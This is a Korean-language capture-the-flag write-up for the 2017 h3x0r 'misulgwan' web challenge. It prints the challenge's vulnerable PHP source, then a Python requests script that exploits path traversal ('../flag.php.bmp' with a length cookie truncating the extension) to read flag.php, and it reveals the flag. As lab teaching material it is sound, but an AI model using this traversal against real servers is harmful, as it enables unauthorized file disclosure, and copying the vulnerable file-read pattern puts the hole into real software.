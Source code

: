 # 2017 h3x0r - [WEB] misulgwan

## Key words

- $\_COOKIE usage
- passthru
- view-source

## Solution

문제에 접속하고, 소스 보기를 하면 `view.php?view-source`라는 기능으로 소스 보기를 할 수 있었습니다.

```php
welcome to misulgwan. <?php
error_reporting(0);
include 'flag.php'; # flag is in the flag.php

if(isset($_GET['image'], $_COOKIE['length'])){
    if(preg_match("/_/", $_GET['image'])) exit("no hack");
    $ext = explode(".", strrev($_GET['image']));
    $ext = strrev($ext[0]);
    if(!preg_match("/png|jpg|bmp/i", $ext)) exit("no hack");

    $image = substr($_GET['image'], 0, $_COOKIE['length']);
    $view = fopen("./image/".$image, 'rb');

    header("Content-Type: image/png");
    fpassthru($view);
}
else {
    echo "welcome to misulgwan.";
}

if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
}
?>
```
플래그를 얻기 위한 조건으로는 다음과 같습니다.

- `$_GET['image']`, `$_COOKIE['length']` 설정
- `$_GET['image']`에는 `_` 이 들어 갈 수 없음
- `$_GET['image']`를 `.` 으로 Split한 결과에 `png|jpg|bmp`가 존재해야 함
- `flag.php`를 불러와야 함

결론적으로 `$view`의 위치가 `./flag.php`가 될 수 있도록 `$image`를 맞추어야 합니다.

먼저 위의 조건을 회피 하기 위해 아래와 같이 1차 쿼리를 제작합니다.

>?image=../flag.php.bmp

이와 같이 만들어 주면 `fopen`시 다음과 같이 동작 합니다.

```php
$view = fopen("./image/../flag.php.bmp", "rb");
```

문제는 여기서 뒷 부분의 `.bmp` 확장자 인데 소스코드를 잘 확인해보면 `$_COOKIE['length']`를 통해 이미지명을 짤라 줍니다.

```php
$image = substr($_GET['image'], 0, $_COOKIE['length']);
```

우리가 넣은 쿼리는 `../flag.php.bmp` 이며 `substr("../flag.php.bmp", 0, 11)`을 하게 되면 결과적으로 `../flag.php`남게 되기 때문에 `$_COOKIE['length']`의 값을 11로 만들어서 쿼리를 합니다.

## Code

```python
import requests

url = "http://39.120.34.116:12345/misulgwan/view.php"
headers = {"Cookie": "length=11;"}
params  = { "image": "../flag.php.bmp" }
r = requests.get(url, params=params, headers=headers)

print r.content

''' result
<?php
# Congratulation!!!!
# H3X0R{munhwabaek_is_back}
?>
'''
```
